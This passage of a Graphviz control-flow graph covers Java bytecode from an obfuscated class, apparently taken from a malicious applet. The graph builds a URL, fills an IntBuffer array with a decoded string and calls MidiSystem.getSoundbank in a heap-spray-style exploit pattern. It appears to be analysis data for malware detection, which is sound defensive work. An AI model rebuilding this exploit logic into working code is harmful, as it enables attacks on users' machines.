    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r63";
    "store.r r63"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r63";
    "load.r r63"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r416"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r416";
    "load.r r416"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "store.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r79"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r79";
    "load.r r79"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "new java.net.URL"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.net.URL";
    "new java.net.URL"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r324";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r324"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"9v09vv090vvvv9v0\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"9v09vv090vvvv9v0\"";
    "push \"v\""
    "push \"9v09vv090vvvv9v0\""->"push \"v\"";
    "push \"v\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <Ifology: java.nio.IntBuffer[] __Y(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <Ifology: java.nio.IntBuffer[] __Y(java.lang.String,java.lang.String)>";
    "fieldput <Ifology: java.nio.IntBuffer[] mem>"
    "virtualinvoke <Ifology: java.nio.IntBuffer[] __Y(java.lang.String,java.lang.String)>"->"fieldput <Ifology: java.nio.IntBuffer[] mem>";
    "fieldput <Ifology: java.nio.IntBuffer[] mem>"->"load.r r0";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "load.r r0"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "iflt return"->"return";
}
